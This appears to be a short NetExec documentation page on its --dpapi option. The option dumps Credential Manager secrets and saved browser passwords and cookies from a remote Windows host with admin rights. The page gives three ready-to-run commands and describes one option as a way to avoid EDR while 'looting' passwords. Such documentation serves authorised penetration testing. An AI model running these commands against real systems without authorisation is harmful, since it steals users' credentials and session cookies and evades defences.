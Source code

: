 ```yaml
---
description: Dump DPAPI credentials using NetExec
---
```


# 🆕 Dump DPAPI

You can dump DPAPI credentials using NetExec using the following option --dpapi. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. --dpapi support options :&#x20;

* cookies : Collect every cookies in browsers
* nosystem : Won't collect system credentials. This will prevent EDR from stopping you from looting passwords :fire:

{% hint style="danger" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```
$ nxc smb <ip> -u user -p password --dpapi
$ nxc smb <ip> -u user -p password --dpapi cookies
$ nxc smb <ip> -u user -p password --dpapi nosystem
```
